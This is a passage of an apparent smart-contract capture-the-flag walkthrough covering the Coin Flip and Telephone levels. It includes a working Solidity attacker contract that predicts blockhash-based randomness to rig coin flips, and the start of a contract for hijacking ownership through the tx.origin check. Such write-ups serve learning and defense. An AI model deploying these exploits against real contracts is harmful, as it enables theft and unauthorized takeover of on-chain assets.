 That's it, you can submit this level and move on to the next.

## 4. Coin Flip

This level is an example of gameable pseudo-randomness. Since the contract is public, you can see how it is calculating the result of the coin flip. All code in a chain of calls within a single transaction is executed simultaneously, so you can make a call using the same calculation with the same `block.number`.

    // SPDX-License-Identifier: MIT
    
    pragma solidity ^0.8.0;
    
    interface ICoinFlip {
      function flip(bool _guess) external returns (bool);
      function FACTOR() external view returns (uint256);
    }
    
    contract CoinFlipAttacker{
      ICoinFlip public immutable instance;
      uint256 public immutable FACTOR;
    
      constructor(address _instance) {
        instance = ICoinFlip(_instance);
        FACTOR = instance.FACTOR();
      }
    
      function cheat() public{
        uint256 blockValue = uint256(blockhash(block.number-1));
        uint256 coinFlip = blockValue/FACTOR;
        bool side = coinFlip == 1 ? true : false;
    
        instance.flip(side);
      }
    }

Deploy the contract with your instance as the constructor parameter, and then call `cheat` 10 times in a row to accumulate the required win streak. Note that you can only call it once per a block due to the `lastHash == blockValue` check, so you may see some reverts if you try again before the next block.

## 5. Telephone 

This level exists to demonstrate the difference between `tx.origin` and `msg.sender`. At any time within a chain of calls, `tx.origin` will be the account that originated the first call, while `msg.sender` will be the caller of the current function being executed.

The key here is `if(tx.origin != msg.sender)`.

To ensure that our `tx.origin` and `msg.sender` are different, we can make use of a middleman contract that will call `changeOwner` for us.

    // SPDX-License-Identifier: MIT
    
    pragma solidity ^0.8.0;
    
    interface ITelephone {
      function changeOwner(address _owner) external;
    }
    